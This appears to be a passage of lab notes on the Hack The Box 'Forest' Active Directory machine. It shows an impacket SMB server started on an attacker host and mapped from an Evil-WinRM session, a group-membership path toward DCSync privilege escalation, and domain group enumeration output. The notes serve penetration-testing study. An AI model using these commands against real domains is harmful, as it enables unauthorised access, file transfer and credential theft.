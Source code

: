 ```
Kali
impacket-smbserver share . -smb2support -username scriptkiddie -password aa

*Evil-WinRM* PS C:\Users\svc-alfresco\Desktop> net use \\10.10.16.9\share /u:scriptkiddie aa


*Evil-WinRM* PS C:\Users\svc-alfresco\Desktop> net use /d \\10.10.16.9\share





```
https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/manage/understand-security-groups




svc-alfresco --member of--> Service Account --member of --> Privileged IT accounts --Memberof-->Account Operators--WriteDacl--> Enterprise Admins -- Memberof -->Administrator. 


https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/manage/understand-security-groups#account-operators

According to the MS page,
```
Members of this group can create and modify most types of accounts, including accounts for users, Local groups, and Global groups. Group members can log in locally to domain controllers.
```





## DCsync attack Escalating Privilges with Exchange
https://blog.fox-it.com/2018/04/26/escalating-privileges-with-acls-in-active-directory/
https://infosecwriteups.com/htb-forest-write-up-fdd45e8e73bf
### DomainGroup
```
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> get-domaingroup |select Samaccountname
                                                            
samaccountname                                              
--------------                                              
Administrators              
Users                                                       
Guests                      
Print Operators
Backup Operators
Replicator           
Remote Desktop Users
Network Configuration Operators
Performance Monitor Users
Performance Log Users
Distributed COM Users                                       
IIS_IUSRS               
Cryptographic Operators
Event Log Readers
Certificate Service DCOM Access
RDS Remote Access Servers
RDS Endpoint Servers
RDS Management Servers
Hyper-V Administrators
Access Control Assistance Operators
Remote Management Users
System Managed Accounts Group
Storage Replica Administrators 
```